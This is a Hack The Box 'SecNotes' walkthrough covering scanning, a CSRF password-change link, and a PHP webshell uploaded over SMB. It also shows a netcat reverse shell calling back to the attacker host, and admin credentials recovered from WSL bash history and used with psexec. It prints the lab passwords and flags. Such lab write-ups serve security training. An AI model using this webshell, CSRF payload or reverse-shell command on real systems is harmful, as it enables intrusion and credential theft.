

# Resolution summary

>[!summary]
>- Creating a new account it is possible to discover that an user called tyler exists and **can be contacted** using the "Contact Us" form
>- Tyler **open every link** is sent to him
>- The "**Change Password**" function supports both GET and POST requests. Because it does **not implement any CSRF token** it is possible to send a malicious link to tyler and force him to change its password to an arbitrary one.
>- Accessing tyler inbox, its **password** is **disclosed** in addition to a shared folder
>- **Files uploaded** on that shared folders are placed **directly within the web server**. After some tries it is possible to evade protection mechanism and obtain a reverse shell
>- The system supports **Windows Subsystem for Linux**. Obtaining a shell as root it is possible to find **administrator password within root's bash history** and obtain an high-privileges access

## Improved skills

- Exploit CSRF and client side attacks
- Enumerate and Exploit WSL systems

## Used tools

- nmap
- ffuf
- smbmap
- smbclient
- impacket-psexec

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/SecNotes]
└─$ sudo nmap -sV -p80,445,8808 -sS -oN scans/open-ports.txt -Pn 10.10.10.97                                                                                                                                                           1 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-19 14:37 EDT
Nmap scan report for 10.10.10.97
Host is up (0.053s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.67 seconds
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/SecNotes]
└─$ sudo nmap -sV -sC -p80 -sS -oN scans/p80-enum.txt -Pn 10.10.10.97
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-19 14:40 EDT
Nmap scan report for 10.10.10.97
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.20 seconds

┌──(kali㉿kali)-[~/CTFs/HTB/box/SecNotes]
└─$ sudo nmap -sV -sC -p445 -sS -oN scans/p445-enum.txt -Pn 10.10.10.97 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-19 14:38 EDT
Nmap scan report for 10.10.10.97
Host is up (0.051s latency).

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m39s, deviation: 4h02m31s, median: 6m37s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2021-04-19T11:44:57-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-19T18:44:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.59 seconds

┌──(kali㉿kali)-[~/CTFs/HTB]
└─$ nmap 10.10.10.97 --script=smb-enum-* -sC -sV -p445 -Pn -oN box/SecNotes/scans/p445-scripts-enum.txt
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-19 14:57 EDT
Nmap scan report for 10.10.10.97
Host is up (0.050s latency).

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: HTB)
|_smb-enum-services: ERROR: Script execution failed (use -d to debug)
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-enum-shares: 
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: <blank>
|   \\10.10.10.97\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.97\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.97\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: READ

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.78 seconds

┌──(kali㉿kali)-[~/CTFs/HTB/box/SecNotes]
└─$ sudo nmap -sV -sC -p8808 -sS -oN scans/p8808-enum.txt -Pn 10.10.10.97
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-19 14:43 EDT
Nmap scan report for 10.10.10.97
Host is up (0.054s latency).

PORT     STATE SERVICE VERSION
8808/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.10 seconds
```

# Enumeration

## Port 80 - HTTP (Microsoft IIS httpd 10.0)

- PHP/7.2.7
- Popper 1.12.9 --> RFI!

Enumerate files and directories:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/SecNotes]
└─$ ffuf -u http://10.10.10.97/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -fc 404,403
login.php               [Status: 200, Size: 1223, Words: 333, Lines: 35]
register.php            [Status: 200, Size: 1569, Words: 427, Lines: 41]
home.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
contact.php             [Status: 302, Size: 0, Words: 1, Lines: 1]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
.                       [Status: 302, Size: 0, Words: 1, Lines: 1]
change_pass.php         [Status: 302, Size: 0, Words: 1, Lines: 1]
```

Sign up and authenticated home page:


User: [tyler@secnotes.htb](mailto:tyler@secnotes.htb)

Tyler clicks links when contacted:



```bash
┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.97 - - [19/Apr/2021 15:24:50] code 404, message File not found
10.10.10.97 - - [19/Apr/2021 15:24:50] "GET /test.txt HTTP/1.1" 404 -
```

## Port 445 - SMB (Authenticated using tyler credentials)

Enumerated readable shares:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ smbmap -H 10.10.10.97 -u tyler -p  '92g!mA8BGjOirkL%OG*&' -R
[+] IP: 10.10.10.97:445 Name: secnotes.htb                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        .\IPC$\*
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    InitShutdown
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    lsass
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    ntsvcs
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    scerpc
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-374-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    epmapper
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-1ec-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    LSM_API_service
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    eventlog
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-1f8-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    atsvc
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-538-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    spoolss
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-804-0
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    wkssvc
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    trkwks
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    tapsrv
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    mysqld2520_pipe
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    srvsvc
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    vgauth-service
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-274-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    ROUTER
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-27c-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    MsFteWds
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    SearchTextHarvester
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    PSHost.132633310325354896.2540.DefaultAppDomain.powershell
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    PSHost.132633310319782883.2428.DefaultAppDomain.powershell
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    browser
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    iisipma0fd49f4-3376-402a-bf99-fa138b3cb73a
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    iislogpipe02a4d6d3-26d8-420c-b887-39d3b41b8e6f
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    W32TIME_ALT
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    iisipmd91256f8-c61d-4f1c-9c80-94ce4c3ffa96
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    iislogpipe403baf68-8dc9-41b5-aedd-e7250ac0ce4d
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    IISFCGI-0eba03b2-7c39-4981-9429-1221b97c9314
        new-site                                                READ, WRITE
        .\new-site\*
        dr--r--r--                0 Mon Apr 19 16:46:52 2021    .
        dr--r--r--                0 Mon Apr 19 16:46:52 2021    ..
        fr--r--r--              696 Thu Jun 21 16:15:36 2018    iisstart.htm
        fr--r--r--            98757 Thu Jun 21 16:15:38 2018    iisstart.png
        dr--r--r--                0 Mon Apr 19 16:37:30 2021    new-site
```

Upload is allowed on **/new-site/** and files are uploaded directly on the webserver on port 8808:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ smbclient //secnotes.htb/new-site -U tyler                  
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 19 16:46:52 2021
  ..                                  D        0  Mon Apr 19 16:46:52 2021
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
smb: \> put test.txt 
putting file test.txt as \test.txt (0.1 kb/s) (average 0.1 kb/s)
smb: \> quit

┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ curl http://secnotes.htb:8808/test.txt                                      
This is a test
```

# Exploitation

## Cross Site Request Forgery to change tyler's password

Password reset feature supports both GET and POST requests, furthermore it does not implement any CSRF token not a verification with an old password.

Payload: [http://10.10.10.97/change_pass.php?password=hacked&confirm_password=hacked&submit=submit](http://10.10.10.97/change_pass.php?password=hacked&confirm_password=hacked&submit=submit)


Login with the new credentials:


Info inside tyler's note:


>[!important]
>tyler     92g!mA8BGjOirkL%OG*&     \\secnotes.htb\new-site

## Insecure file upload from SMB inside web server

Upload is allowed on /new-site/ and files are uploaded directly on the webserver on port 8808:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ smbclient //secnotes.htb/new-site -U tyler                  
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 19 16:46:52 2021
  ..                                  D        0  Mon Apr 19 16:46:52 2021
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
smb: \> put test.txt 
putting file test.txt as \test.txt (0.1 kb/s) (average 0.1 kb/s)
smb: \> quit

┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ curl http://secnotes.htb:8808/test.txt                                      
This is a test
```

Error using a common php webshell:


Edited the webshell:

```php
<?php

if(isset($_REQUEST['aaa'])){
        echo "<pre>";
        $aaa = ($_REQUEST['aaa']);
        system($aaa);
        echo "</pre>";
        die;
}

?>
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ curl http://secnotes.htb:8808/ws.php?aaa=whoami
<pre>secnotes\tyler
</pre>
```

Upload custom netcat binaries: [netcat 1.11 for Win32/Win64](https://eternallybored.org/misc/netcat/)

```bash
smb: \temp\> put nc64.exe 
putting file nc64.exe as \temp\nc64.exe (142.2 kb/s) (average 129.2 kb/s)
```

Get the reverse shell: [http://secnotes.htb:8808/temp/ws.php?aaa=nc64.exe+10.10.14.14+443+-e+cmd.exe](http://secnotes.htb:8808/temp/ws.php?aaa=nc64.exe+10.10.14.14+443+-e+cmd.exe)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ sudo nc -nvlp 443                                     
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.97] 50027
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site\temp>whoami
whoami
secnotes\tyler

C:\inetpub\new-site\temp>type C:\Users\tyler\desktop\user.txt
type C:\Users\tyler\desktop\user.txt
7e4ab3270ca57b5ec7cdb2a15c2f6078
```

# Privilege Escalation

## Local enumeration

User info:

```bash
C:\inetpub\new-site\temp>whoami
whoami
secnotes\tyler

C:\inetpub\new-site\temp>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192

C:\inetpub\new-site\temp>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State  
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled

C:\inetpub\new-site\temp>net user
net user

User accounts for \\SECNOTES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
tyler                    WDAGUtilityAccount       
The command completed successfully.
```

WSL running as root:

```bash
C:\Distros\Ubuntu>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Distros\Ubuntu

06/21/2018  05:59 PM    <DIR>          .
06/21/2018  05:59 PM    <DIR>          ..
07/11/2017  06:10 PM           190,434 AppxBlockMap.xml
07/11/2017  06:10 PM             2,475 AppxManifest.xml
06/21/2018  03:07 PM    <DIR>          AppxMetadata
07/11/2017  06:11 PM            10,554 AppxSignature.p7x
06/21/2018  03:07 PM    <DIR>          Assets
06/21/2018  03:07 PM    <DIR>          images
07/11/2017  06:10 PM       201,254,783 install.tar.gz
07/11/2017  06:10 PM             4,840 resources.pri
06/21/2018  05:51 PM    <DIR>          temp
07/11/2017  06:10 PM           222,208 ubuntu.exe
07/11/2017  06:10 PM               809 [Content_Types].xml
               7 File(s)    201,686,103 bytes
               6 Dir(s)  13,599,760,384 bytes free
			   
C:\Distros\Ubuntu>wsl whoami
wsl whoami
root
```

Root history reveals administrator password:

```bash
# pwd
/root
# ls
filesystem
# ls -al
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
# cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
```

>[!important]
>Administrator     u6!4ZwgwOM#^OBf#Nwnh

## PxExec using Administrator's credentials

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/SecNotes]
└─$ impacket-psexec Administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97 -port 445
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file uAexFvRe.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service advg on 10.10.10.97.....
[*] Starting service advg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami && hostname && type C:\Users\administrator\desktop\root.txt && ipconfig /all
nt authority\system
SECNOTES
237cad4f37f4079e70e4ef4719a5a95a

Windows IP Configuration

   Host Name . . . . . . . . . . . . : SECNOTES
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-25-CC
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::1d62:a0ec:973c:e86(Preferred) 
   Temporary IPv6 Address. . . . . . : dead:beef::74b9:b28a:686a:cc5a(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::1d62:a0ec:973c:e86%11(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.10.97(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:188e%11
                                       10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 369119318
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-28-10-42-0F-00-50-56-B9-25-CC
   DNS Servers . . . . . . . . . . . : 1.1.1.1
                                       1.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```


# Trophy

>[!quote]
>"Do. Or do not. There is no try.”
>
>\- Yoda
 
>[!success]
>**User.txt**
>7e4ab3270ca57b5ec7cdb2a15c2f6078

>[!success]
>**Root.txt**
>237cad4f37f4079e70e4ef4719a5a95a